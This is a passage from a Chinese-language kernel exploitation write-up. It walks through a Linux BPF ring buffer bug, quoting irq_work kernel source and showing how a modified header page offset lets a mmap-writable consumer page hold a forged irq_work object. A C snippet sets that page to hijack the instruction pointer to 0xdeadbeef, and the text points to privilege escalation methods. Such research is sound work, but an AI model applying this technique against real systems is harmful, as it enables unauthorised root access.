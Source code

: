 該 function 會把 `irq_work` 新增到 work queue linked list 當中 [5]。

```c
// kernel/irq_work.c
static void __irq_work_queue_local(struct irq_work *work)
{
    struct llist_head *list;
    bool rt_lazy_work = false;
    bool lazy_work = false;
    int work_flags;

    // [...]
    if (lazy_work || rt_lazy_work)
        list = this_cpu_ptr(&lazy_list);
    else
        list = this_cpu_ptr(&raised_list);

    if (!llist_add(&work->node.llist, list)) // [5]
        return;
    // [...]
}
```

IRQ handler 會遍歷 work list 並執行每個 callback [6]，其中因為 work object 可控，因此 callback function 也可控。

```c
// kernel/irq_work.c
void irq_work_single(void *arg)
{
    struct irq_work *work = arg;
    int flags;

    flags = atomic_read(&work->node.a_flags);
    flags &= ~IRQ_WORK_PENDING;
    atomic_set(&work->node.a_flags, flags);

     // [...]
    lockdep_irq_work_enter(flags);
    work->func(work); // [6]
    lockdep_irq_work_exit(flags);
    // [...]
}
```

一旦可以控 RIP，就可以參考現有的手法，像是 spray JIT opcode 蓋寫 core dump pattern 等方式做到提權。

當確定資料可控後能成功做到提權，剩下就是想辦法設好 `hdr->pg_off`，讓 `bpf_ringbuf_restore_from_rec()` 回傳的 pointer 剛好落在資料為可控的 memory region。

`hdr->pg_off` 的定義是 **ring buffer object 與當前 header 的 page offset**，又因為 data 前面會有三個 pages，分別為 metadata、consumer position 以及 producer position，因此預設會從 3 開始往上加。然而，先前提到 consumer position page 可以透過 mmap 修改，因此如果直接把 `hdr->pg_off` 改成 2，就能讓 `irq_work` object 落在 consumer position page，這樣就可以控制整個 `irq_work` 的內容了。最後參考下面程式碼設置 consumer position page，就可以在 IRQ 發生時控 RIP 到 `0xdeadbeef`。

```c
*(unsigned long *)(consumer_pos + 0x00) = 0x3000; // consumer position
*(unsigned long *)(consumer_pos + 0x18) = 0x2; // flags
*(unsigned long *)(consumer_pos + 0x28) = 0xdeadbeef; // func
```
